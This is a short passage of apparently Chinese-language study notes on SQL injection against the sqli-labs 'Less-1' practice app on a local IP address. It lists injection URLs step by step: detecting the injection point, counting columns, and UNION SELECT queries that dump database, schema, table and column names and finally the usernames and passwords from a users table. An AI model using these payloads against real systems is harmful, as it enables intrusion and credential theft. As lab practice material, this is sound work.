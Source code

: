 ```
#注入点
http://192.168.3.6/Less-1/?id=1' 
http://192.168.3.6/Less-1/?id=1' or '1' or '1 
http://192.168.3.6/Less-1/?id=1' or '1=1-- - 
http://192.168.3.6/Less-1/?id=1' or '1=1--+
http://192.168.3.6/Less-1/?id=1' or 1=1%23

#判断字段数
http://192.168.3.6/Less-1/?id=1' order by 3 -- - 
http://192.168.3.6/Less-1/?id=1' order by 4 -- -

#数据库基本信息
http://192.168.3.6/Less-1/?id=0' union select 0,database(),version() -- - http://192.168.3.6/Less-1/?id=0' union select 0,current_user(),user() -- -

#数据库
http://192.168.3.6/Less-1/?id=0' union select  0,database(),group_concat(schema_name)from information_schema.schemata -- -



#数据表
http://192.168.3.6/Less-1/?id=0' union select 0,database(),group_concat(table_name)from information_schema.tables where table_schema=database() -- -



#数据列
http://192.168.3.6/Less-1/?id=0' union select 0,database(),group_concat(column_name)from information_schema.columns where table_schema=database() -- -


#数据
http://192.168.3.6/Less-1/?id=0' union select 0,group_concat(username),group_concat(password)from users -- -
```



![image](004_第四周—数据库系统功能相关学习/Image_010-1567178982004.jpg)



写文件
